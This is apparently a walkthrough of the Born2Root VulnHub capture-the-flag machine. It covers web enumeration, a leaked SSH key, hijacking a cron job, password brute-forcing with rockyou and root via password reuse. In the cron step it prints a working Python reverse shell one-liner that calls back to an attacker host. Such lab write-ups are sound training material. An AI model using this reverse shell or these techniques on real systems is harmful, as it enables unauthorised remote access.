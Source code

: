 # Born2Root: 1

## 1.Get VM IP

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/3d1116fe-6019-4783-8339-8fbc26286343)

The IP address is `192.168.56.109`, let's enumerate it.

## 2.Enumeration

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/85cd869d-e904-4ad6-b19b-ec9b4fc7ade4)

So, let's check the webpage first :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/59336175-e076-4ad0-be39-cc47c08d9d88)

there afew usernames here : 

- martin
- hadi
- jimmy

write them down and try to fuzz the web application :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ffdfd581-84fc-4476-8bc8-925293af35eb)

we found several directories, first go to `/icons` and there are a lot of files here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2501949e-23dc-4baa-888c-6ee000056202)

## 3.Gaining Shell

Check the file named `VDSoyuAXiO.txt` and you see a SSH private key here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/5fc3cea2-3a53-49fe-91eb-95976e128380)

we can now check which user does this private key belongs to, i try user `martin` :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/726b9871-be30-4f9e-ac46-ab00b27ca1a4)

and for secret password just use a blank password.

## 4.Privilege Escalation 1 (Jimmy)

Check crontab :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/83620935-2f64-4113-9402-c0c9016a627d)

the file `sekurity.py` has jimmy permissions and there are no `sekurity.py` in `/tmp` so we need to create one

and put a reverse shell in it :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/57fb2b39-c6cc-4e35-b08f-bcdce6e93eac)

## 5.Privilege Escalation 2 (hadi)

If you see the home page of user jimmy, there is a file called `networker` and when execurting it :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a01a92d0-0cdf-4713-a188-6a77a97788f8)

this binary is a rabbit hole and has nothing to do with, since we logged in as 2 users out of 3 possible users

now the only option is to brute force the last user password, user `hadi`, we can generate a new wordlist or use `rockyou.txt` :

```bash
root@kali: cat /usr/share/wordlists/rockyou.txt | grep hadi > hadi.txt
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f536fb33-3d0d-42f7-bbcc-57c4d435085f)


now we can log in with password `hadi123`, again in home directory we see binaries that has nothing to do with

they are just rabbit holes, so annoying ...

## Privilege Escalation 3 (root)

Just reuse the password to get root :

```bash
hadi@debian:~$ su root
su root
Mot de passe : hadi123

root@debian:/home/hadi# cd /root
cd /root
root@debian:~# cat flag.txt
cat flag.txt
                                                                      
,-----.                         ,---. ,------.                 ,--.   
|  |) /_  ,---. ,--.--.,--,--, '.-.  \|  .--. ' ,---.  ,---. ,-'  '-. 
|  .-.  \| .-. ||  .--'|      \ .-' .'|  '--'.'| .-. || .-. |'-.  .-' 
|  '--' /' '-' '|  |   |  ||  |/   '-.|  |\  \ ' '-' '' '-' '  |  |   
`------'  `---' `--'   `--''--''-----'`--' '--' `---'  `---'   `--'   


Congratulations ! you  pwned completly Born2root's CTF .

I hope you enjoyed it and you have made Tea's overdose or coffee's overdose :p 

I have blocked some easy ways to complete the CTF ( Kernel Exploit ... ) for give you more fun and more knownledge ...

Pwning the box with a linux binary misconfiguration is more fun than with a Kernel Exploit !

Enumeration is The Key .



Give me feedback :[FB] Hadi Mene
```

this is how you can get root on this machine :)










